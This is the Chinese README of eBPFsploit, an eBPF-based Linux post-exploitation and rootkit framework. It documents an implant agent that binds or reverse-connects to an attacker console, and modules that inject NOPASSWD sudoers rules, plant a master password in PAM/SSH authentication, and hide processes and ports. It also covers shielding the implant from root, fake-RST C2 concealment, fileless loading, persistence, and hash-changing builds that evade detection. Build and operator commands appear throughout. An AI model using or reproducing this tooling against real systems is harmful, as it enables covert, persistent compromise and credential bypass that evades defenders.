<p align="center">
  <h1 align="center">🐍 eBPFsploit</h1>
  <p align="center">
    <b>基于 eBPF 的内核级后渗透框架</b>
  </p>
  <p align="center">
    <a href="README.md">English</a> | <b>中文</b>
  </p>
  <p align="center">
    
    
    
    
    
  </p>
</p>

---

eBPFsploit 是一个模块化的后渗透框架，利用 Linux eBPF 技术在**内核态**实现一系列高级攻防操作——权限提升、凭据劫持、进程/端口隐藏、文件保护和 C2 通信隐身——全程**无内核模块**、**无磁盘痕迹**。

> [!IMPORTANT]
> **技术说明：** 由于 `EACCES` 错误（内核验证器对系统调用钩子的复杂度限制），`netghost` 模块暂时不可用。目前正在进行重构以优化实现机制。

> **⚠️ 免责声明：** 本工具仅用于**已授权的安全研究与渗透测试**。未经授权对他人系统使用本工具属于违法行为。作者不对任何滥用行为承担责任。

> **🚧 开发状态：** 本项目目前处于**活跃开发阶段**，尚未经过全面测试。功能完整性、稳定性和兼容性均不作保证，请自行评估风险。

> **🎵 Vibe Coding：** 本项目通过 Vibe Coding 方式构建——开发者主导设计思路与整体架构，与 AI 协作完成编码实现。

## ✨ 功能模块

* **隐身 C2 通信**：利用 **XDP (eXpress Data Path)** 隐藏 Agent 监听端口。仅授权 IP (Console) 可见端口，其余 IP 访问将收到伪造的 `TCP RST`，使端口在扫描中显示为 `closed` 而非 `filtered`。
    
    *XDP 隐身开启时的扫描结果（端口 4444 显示为 closed）。*
    
    *XDP 隐身关闭时的扫描结果（端口 4444 可见）。*
* **内核权限劫持 (`godmode`)**：动态篡改 `sudoers` 读取流，赋予目标用户无密码 sudo 权限，无需修改磁盘上的 `/etc/sudoers`。
    
    *加载 godmode 模块。*
    
    *通过劫持 sudoers 获取 root 权限。*
    
    *演示运行时热更改参数：动态调整 godmode 配置。*
* **凭据劫持 (`golden_key`)**：Hook `libcrypt` 实现万能密码，支持绕过 SSH/PAM 等服务的身份验证。
    
    *拦截认证流程。*
    
    *分析截获的凭据。*
    
    *演示运行时热更改参数：动态更新万能密码。*
* **文件/进程守护 (`guard`)**：基于 **LSM BPF** 保护 Agent 自身文件与进程，即使是 `root` 用户也无法通过 `kill`、`rm` 或 `mv` 对其进行操作。
    
    *加载 guard 模块。*
    
    *文件保护已激活。*
    
    *演示运行时热更改参数：动态调整受保护文件列表。*
    
    *演示运行时热更改参数：动态调整受保护进程。*

**框架亮点：**

* 🔌 **无文件模块投递** — BPF 字节码通过网络传输，从不落盘
* 👻 **Shadow Daemon 持久化** — 模块在 Agent 重启后仍能存活并自动恢复
* 🔐 **加密 C2 通信** — PSK + XOR 流量混淆，构建时自动生成密钥
* 🎯 **运行时动态配置** — 无需重新加载即可更新 BPF Map
* 🔍 **自动环境侦察** — 部署前自动检测目标的内核特性与权限
* 🛡️ **反检测** — `builder.py` 每次构建产生唯一 Hash 的二进制

## 🏗️ 架构设计

```
┌──────────────────┐         TCP 144-byte          ┌─────────────────────────┐
│    Console       │      binary protocol          │    Target Machine       │
│   (Python CLI)   │ ◄──────────────────────────►  │                         │
│                  │                               │  ┌──────────┐           │
│  use / set / run │                               │  │  Agent   │  (C bin)  │
│  update / recon  │                               │  │         ─┼──► libbpf │
│  sessions / ...  │                               │  └────┬─────┘     │     │
└──────────────────┘                               │       │ fork()    ▼     │
                                                   │  ┌────▼─────┐  Kernel   │
                                                   │  │  Shadow  │  eBPF     │
                                                   │  │  Daemon  │ Programs  │
                                                   │  └──────────┘           │
                                                   └─────────────────────────┘
```

**三大组件：**

1. **Console（控制台）** — 攻击者侧的 Python 交互式 CLI，类似 Metasploit 风格的操作流
2. **Agent（植入体）** — 部署在目标机器的 C 程序，通过 libbpf 将字节码加载进内核
3. **eBPF Modules（功能模块）** — 6 个内核态 eBPF 程序，各司其职

## 📋 环境要求

* **Linux 内核 ≥ 5.8**，需开启 BTF 支持（`CONFIG_DEBUG_INFO_BTF=y`）
* 目标机器需要 **root 权限**
* 构建工具：`gcc`、`clang`、`bpftool`、`make`
* 依赖库：`libbpf-dev`、`libelf-dev`、`zlib1g-dev`
* Python 3.8+ 及 `pyelftools`、`colorama`

## 🔨 构建

```bash
# 1. 从当前运行内核的 BTF 信息生成 vmlinux.h
make vmlinux

# 2. 编译 Agent + 所有 BPF 模块
make all

# 3. 安装 Console 的 Python 依赖
pip install -r console/requirements.txt
```

### 构建目标

| 目标 | 说明 |
|---|---|
| `make all` | 编译 Agent + 所有 BPF 模块 |
| `make agent` | 仅编译 Agent（`agent/agent`） |
| `make modules` | 仅编译 BPF 模块 → `console/modules/` |
| `make vmlinux` | 从 `/sys/kernel/btf/vmlinux` 生成类型头文件 |
| `make clean` | 清理所有构建产物 |

### 生成唯一 Agent（反哈希检测）

`make all` 会自动调用 `builder.py`，生成**唯一 PSK** 并注入 Agent 和 Console，同时产生 **Hash 唯一** 的二进制文件——注入随机 build ID、剥离符号表、追加垃圾数据。每次 `make` 都会生成新的密钥对和唯一二进制。

## 🚀 使用方法

### 1. 在目标机器启动 Agent

```bash
# Bind 模式 — Agent 监听端口，等待 Console 连接
./agent -b 4444

# Reverse 模式 — Agent 主动回连 Console
./agent -r <console_ip> 4444

# 启用 XDP 隐身（在网卡驱动层隐藏 C2 端口）
./agent -b 4444 -i eth0
```

### 2. 从 Console 连接

```bash
# 正向连接 — 主动连接 Agent
python3 console/console.py <目标IP> 4444

# 反向监听 — 等待 Agent 回连
python3 console/console.py 4444
```

### 3. 交互式操作

```bash
ebpfsploit > list                          # 列出所有可用模块
ebpfsploit > use godmode                   # 选择模块
ebpfsploit (godmode) > show options        # 查看配置项
ebpfsploit (godmode) > set target "\nuser ALL=(ALL:ALL) NOPASSWD:ALL\n"
ebpfsploit (godmode) > run                 # 注入到目标内核

ebpfsploit > sessions                      # 查看活跃会话
ebpfsploit > show session 1                # 查看会话详情
ebpfsploit > update 1 target "\nnewuser ALL=(ALL:ALL) NOPASSWD:ALL\n"
ebpfsploit > unload 1                      # 从内核卸载模块 (别名: kill)
ebpfsploit > kill 2                        # 终止会话 2
ebpfsploit > update 1 target 80 443 8080   # 多值更新（覆盖原有 Map 内容）
ebpfsploit > recon                         # 重新扫描目标环境
```

## 📁 项目结构

```
ebpfsploit/
├── Makefile                          # 构建系统
├── README.md                         # 英文文档
├── README_CN.md                      # 中文文档
├── agent/
│   ├── agent.c                       # C2 Agent 植入体
│   └── builder.py                    # 反哈希检测构建脚本
└── console/
    ├── console.py                    # 交互式控制台
    ├── requirements.txt              # Python 依赖
    ├── modules_src/                  # BPF 模块源码
    │   ├── vmlinux.h                 # 内核类型定义（生成文件）
    │   ├── template.bpf.c            # 模块开发模板
    │   ├── godmode.bpf.c             # sudoers 劫持
    │   ├── golden_key.bpf.c          # 万能密码
    │   ├── shadow_walker.bpf.c       # 进程隐藏
    │   ├── netghost.bpf.c            # 端口隐藏
    │   ├── guard.bpf.c               # 文件/进程保护
    │   └── stealth_link.bpf.c        # XDP C2 隐身
    └── modules/                      # 编译产物（.bpf.o 文件）
```

## 🔬 核心机制

### 无文件模块加载

Console 在本地读取 `.bpf.o` 文件，将原始 ELF 字节码通过 TCP 发送给 Agent。Agent 使用 `bpf_object__open_mem()` 直接从内存加载——**目标磁盘上不会产生任何文件**。

### Shadow Daemon 持久化

每次加载模块后，Agent 会 `fork()` 一个 Shadow Daemon 子进程。该进程通过 `SCM_RIGHTS`（Unix socket 文件描述符传递）持有所有 BPF Map 的 FD，并监听在 **Linux 抽象命名空间 socket** 上（不产生文件系统痕迹）。即使 Agent 被杀死重启，也能无缝恢复所有会话。

### XDP RST 伪装（stealth_link）

对于未授权的 C2 端口访问，XDP 程序不是静默丢弃（nmap 报告 `filtered`），而是就地构造 **TCP RST 回包**。端口扫描结果显示为 `closed`——与真正没有服务的端口无法区分。

## ⚡ 模块详解

<details>
<summary><b>godmode</b> — sudoers 劫持</summary>

通过 Tracepoint Hook `openat` 和 `read` 系统调用。当进程读取 `/etc/sudoers` 时，返回到用户空间的内容被替换为注入的规则，赋予指定用户无密码 sudo 权限。

**前置要求：** root、tracefs、`bpf_probe_write_user`

```bash
use godmode
set target "\nuser ALL=(ALL:ALL) NOPASSWD:ALL\n"
run
```

</details>

<details>
<summary><b>golden_key</b> — 万能密码</summary>

在 `libcrypt.so.1` 的 `crypt_r()` 函数上挂载 uprobe/uretprobe。检测到万能密码时，捕获真实的 shadow hash 并覆写 `crypt_r()` 的输出缓冲区——PAM 认为密码验证通过。

**前置要求：** root、uprobe 支持、`bpf_probe_write_user`

```bash
use golden_key
set target "mysecretpass"
run
```

</details>

<details>
<summary><b>shadow_walker</b> — 进程隐藏</summary>

Hook `getdents64` 系统调用，篡改 `/proc` 返回的目录项。通过调整 `d_reclen` 跳过目标 PID 的条目，使其从 `ps`、`top` 中消失。

**前置要求：** root、tracefs、`bpf_probe_write_user`

```bash
use shadow_walker
run
update <session_id> target <要隐藏的PID> <另一个PID>
```

</details>

<details>
<summary><b>netghost</b> — 端口隐藏</summary>

Hook `/proc/net/tcp` 的读取过程，将包含隐藏端口的行替换为空白。`ss` 和 `netstat` 将无法看到该端口。

**前置要求：** root、tracefs、`bpf_probe_write_user`

```bash
use netghost
run
update <session_id> target 4444 80 22
```

</details>

<details>
<summary><b>guard</b> — 文件/进程保护</summary>

利用 LSM BPF Hook（`inode_permission`、`path_rename`、`path_unlink`、`task_kill`）拦截操作并返回权限错误。即使 root 用户也无法删除、重命名受保护文件或终止受保护进程。

**前置要求：** root、内核 LSM BPF 支持、CAP_MAC_ADMIN

```bash
use guard
run
update <session_id> target_inodes <inode1> <inode2>
update <session_id> target_pids <pid1>
```

</details>

<details>
<summary><b>stealth_link</b> — C2 通信隐身</summary>

XDP 程序在网卡驱动层隐藏 Agent 监听端口。对未授权的 TCP SYN 包伪造 RST 回复，端口扫描器将报告端口为 `closed`。

**前置要求：** root、XDP 支持、CAP_NET_ADMIN

```bash
# Agent 启动时通过 -i 自动加载：
./agent -b 4444 -i eth0

# 或手动加载：
# use stealth_link
# set target 4444
# run
# update <session_id> whitelist 1.2.3.4 5.6.7.8

# Bind 模式：加载后放行首个连入的 Console，随后立即锁死白名单。
# Reverse 模式：加载时直接将目标 IP 写入白名单并锁死。
```

</details>

## 🧩 开发自定义模块

参考 `console/modules_src/template.bpf.c` 中的模块开发模板，快速创建自己的 eBPF 模块。

## 📜 许可证

本项目基于 [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/) 协议发布。

您可以自由分享和改编本项目，但仅限**非商业用途**，需注明出处，且需以相同协议共享。

**合法使用，道德黑客。🛡️**
